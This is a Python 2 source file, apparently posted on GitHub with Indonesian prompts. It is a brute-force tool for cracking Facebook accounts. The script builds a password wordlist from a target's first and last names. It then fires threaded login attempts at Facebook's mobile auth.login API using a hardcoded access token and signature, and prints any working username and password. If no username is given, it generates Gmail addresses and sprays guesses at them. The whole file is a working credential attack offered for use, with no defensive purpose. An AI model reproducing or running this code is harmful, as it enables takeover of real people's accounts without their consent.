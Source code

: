 # -*- coding UTF-8 -*-

#  Author : Tomi Aji Dwita

#  Tools : Geli2 Efbeh

#  Versi : 0.4

from prettytable import PrettyTable

from multiprocessing.pool import Process, ThreadPool

from useragents import user_agents, string1, string2, deviv, divev

import os, sys, time, requests, json

s = '\n  \033[92;1m         Suksess... \n        Password Found '

multi_dev = []

sandi = []

def Wordlist():

	try:

		print string1

		print "\033[96;1m        B U A T   W O R D L I $ T "

		print '\033[92;1m+'+'-'*38+'+' 

		nama1 = raw_input("\033[96;1m [\033[95;1m!\033[96;1m]\033[97;1m Masukkan Nama Depan Target\033[93;1m : ")

		nama2 = raw_input("\033[96;1m [\033[95;1m!\033[96;1m]\033[97;1m Masukkan Nama Belakang Target\033[93;1m : ")

		if nama1 == '' or nama2 == '':

			sys.exit("\n\033[91;1m AJA KONSONG KOPOK TOLOL!\n Kamu Keluar...")

		d = nama1.replace(' ', '').replace('  ', '')

		b = nama2.replace(' ', '').replace('  ', '')

		lis = ['123','12345','321']

		# ////////////////////////////////////////////

		for dev in lis:

			sandi.append(nama1+dev)

		for dev in lis:

			sandi.append(nama2+dev)

		sandi.append('ketipu')

		sandi.append('kena-tipu')

	except KeyboardInterrupt:

		print "\n Keluar.... "

	print " \n\033[92;1m   Suksess Membuat Wordlist..."

		

user1 = []

def target():

	global target

	print string2

	user_dev = raw_input("\033[96;1m {\033[97;1m@\033[96;1m}\033[92;1m Masukkan Username Target:\n\033[93;1m  => \033[97;1m ")

	user = user_dev.replace('https://www.facebook.com/', '')

	if '08' not in user and '+62' not in user and '.' not in user and '1000' not in user and 'www.facebook.com' not in user:

		print '\033[91;1m+'+'-'*38+'+'

		print "\033[97;1m Masukkin Username BABI, Bukan Nama orangnya BABI..\n Tapi gk pp lah, kamu masih bisa crack \n Walaupun Tidak Bertarget.."

		print '\033[91;1m+'+'-'*38+'+'

		gm = user.replace(' ', '')

		for dev in range(1, 51):

			user1.append(gm+str(dev)+'@gmail.com')

		print "\n\033[92;1m Cracking Berjalan.......\n"

		h_sandi = [sandi[0], sandi[1]]

		def br_dev(usr):

			for pas in h_sandi:

			  try:

				wak = time.ctime()

				sys.stdout.write("\r \033[95;1m" + pas + '  |  \033[97;1m' + usr )

				dev = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+usr+"&locale=en_US&password="+pas+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

				dev_id = dev.content

				jsl = json.loads(dev_id)

				if "session_key" in dev_id or "www.facebook.com" in jsl["error_msg"]:

				

					x = PrettyTable()

					print 

					print s

					x.add_column("\033[92;1mUsername\033[97;1m", ['\033[96;1m'+usr+'\033[97;1m'])

					x.add_column("\033[92;1mPassword\033[97;1m", ['\033[96;1m'+pas+'\033[97;1m'])

					print '\033[97;1m'

					print x

				

					print('\n\033[96;1m  Selamat Anda Sedang Beruntung :)\n Tekan CTRL Z Untuk Berhenti...\n')

				  	

			  except requests.exceptions.ConnectionError:

				  	exit(' Gangguan Koneksi Internet\n Keluarrr....')

			  except KeyError:

			  	print " "

		def crk():

			th_dev = ThreadPool(30)

			th_dev.map(br_dev, user1)

			divev()

			deviv()

		crk() 

		exit('\n\n     Done .... \n')

	print '+'+'-'*38+'+'

	pasw = open('user.txt', 'w')

	pasw.write(user)

	pasw.close() 

	

def br_dev1(paswq):

	usr = open('user.txt', 'r').read()

	wak = time.ctime()

	pas = paswq.replace('\n', '')

	print '\033[96;1m ' + wak + " \033[95;1m" + pas 

	dev = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+usr+"&locale=en_US&password="+pas+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

	dev_id = dev.content

	jsl = json.loads(dev_id)

	if "session_key" in dev_id or "www.facebook.com" in jsl["error_msg"]:

	  try:

		x = PrettyTable()

		print s

		x.add_column("\033[92;1mUsername\033[97;1m", ['\033[96;1m'+usr+'\033[97;1m'])

		x.add_column("\033[92;1mPassword\033[97;1m", ['\033[96;1m'+pas+'\033[97;1m'])

		print '\033[97;1m'

		print x

		divev()

		deviv()

		raw_input('\n\033[96;1m  Selamat Anda Sedang Beruntung :)\n Tekan CTRL Z Untuk Berhenti...\n')

		

	  except:

	  	pass

	

	

def brute():

	Wordlist()

	target()

	dev = ThreadPool(8)

	dev.map(br_dev1, sandi)

	divev()

	deviv()

	print '\n\033[92;1m    Selesai ANJING..... \n  '
